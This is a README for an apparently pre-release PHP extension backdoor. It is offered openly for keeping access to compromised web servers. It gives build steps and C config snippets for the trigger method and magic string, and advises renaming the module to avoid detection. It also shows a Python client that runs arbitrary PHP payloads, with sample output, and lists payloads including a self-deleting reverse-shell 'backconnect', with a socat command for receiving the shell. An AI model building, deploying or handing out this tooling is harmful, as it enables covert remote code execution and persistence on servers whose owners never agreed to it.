 ## Note: Unfinished pre-release.

# PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Payloads
## info.php
Prints UID, GID, and the uname -a of the server.

## back_python.php
Self destructing python backconnect. Sends a PTY home, and deletes itself once done. Work in progress, gotta find a way to pass arguments to the modules.

I recommend using Socat to accept PTY shells like so:
```
$ socat -,echo=0,raw tcp4-listen:PORT
```
![PTY Backconnect](http://0x27.me/images/phpextbackdoor-pythonpty.png)

# Credits
Original Russian author, and [akamajoris][akamajoris]. All we did was some translation and writing payloads and client because we found them useful and interesting.

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akamajoris]: https://github.com/akamajoris
